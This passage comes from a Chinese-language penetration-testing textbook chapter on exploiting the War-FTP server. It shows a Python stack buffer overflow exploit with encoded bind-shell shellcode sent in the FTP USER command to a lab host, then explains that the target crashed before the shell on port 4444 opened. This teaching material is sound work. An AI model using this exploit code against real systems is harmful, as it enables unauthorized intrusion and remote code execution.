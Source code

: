 ```
"\x20\xe4\x74\xf3\x2a\xeb\xab\xe3\x54\x21\xda\x23\x9b\x11" +
"\x8f\xc3\xde\xa5\x3e\x48\x56\x43\x2a\x60\x3e\xdb\xc2\x42" +
"\x65\xd4\x75\xbc\x4f\x48\x2e\x2a\xc7\x86\xe8\x55\xd8\x8c" +
"\x5b\xf9\x70\x47\x2f\x11\x45\x76\x30\x3c\xed\xf1\x09\xd7" +
"\x67\x6c\xd8\x49\x77\xa5\x8a\xea\xea\x22\x4a\x64\x17\xfd" +
"\x1d\x21\xe9\xf4\xcb\xdf\x50\xaf\xe9\x1d\x04\x88\xa9\xf9" +
"\xf5\x17\x30\x8f\x42\x3c\x22\x49\x4a\x78\x16\x05\x1d\xd6" +
"\xc0\xe3\xf7\x98\xba\xbd\xa4\x72\x2a\x3b\x87\x44\x2c\x44" +
"\xc2\x32\xd0\xf5\xbb\x02\xef\x3a\x2c\x83\x88\x26\xcc\x6c" +
"\x43\xe3\xfc\x26\xc9\x42\x95\xee\x98\xd6\xf8\x10\x77\x14" +
"\x05\x93\x7d\xe5\xf2\x8b\xf4\xe0\xbf\x0b\xe5\x98\xd0\xf9" +
"\x09\x0e\xd0\x2b")
buffer = "A" * 485 + "\x59\x54\xc3\x77" + "C" * 4 + shellcode
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.send('PASS PASSWORD\r\n')
s.close()
```

当你尝试运行漏洞利用时，出现了意外的情况。虽然我们仍然能够命中断点并将执行重定向到我们的 shellcode，但 War-FTP 在我们收到绑定到端口 4444 的 shell 之前崩溃了。shellcode 中的某些部分导致了崩溃，详情见图 17-15。

![War-FTP 崩溃](img/httpatomoreillycomsourcenostarchimages2030538.png.jpg)图 17-15. War-FTP 崩溃

